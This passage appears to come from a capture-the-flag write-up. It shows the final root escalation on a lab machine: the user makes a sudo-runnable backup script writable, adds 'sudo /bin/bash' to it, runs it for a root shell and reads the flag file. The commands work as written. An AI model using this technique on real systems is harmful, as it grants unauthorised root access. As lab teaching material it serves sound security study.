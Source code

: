 It doesn't get easier than a writable custom script. All we need to do is add the write permission to the file and add a line to the script that spawns a new shell.

```console
alex@ubuntu:~$ chmod u+w /etc/mp3backups/backup.sh
alex@ubuntu:~$ vi /etc/mp3backups/backup.sh
```
<div style="text-align: center; font-style: italic; font-size: 12px">Add write permissions and edit the backup script</div>

```bash
#!/bin/bash
sudo /bin/bash  # Added
exit 0          # Added
sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt
...
```
<div style="text-align: center; font-style: italic; font-size: 12px">/etc/mp3backups/backup.sh - Modified to spawn a root shell</div>

```console
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh
root@ubuntu:/root# cd /root
root@ubuntu:/root# ls -al root.txt
-r-xr--r-- 1 root root 43 Dec 30  2020 root.txt
root@ubuntu:/root# cat root.txt
flag{REDACTED}
root@ubuntu:/root# 
```
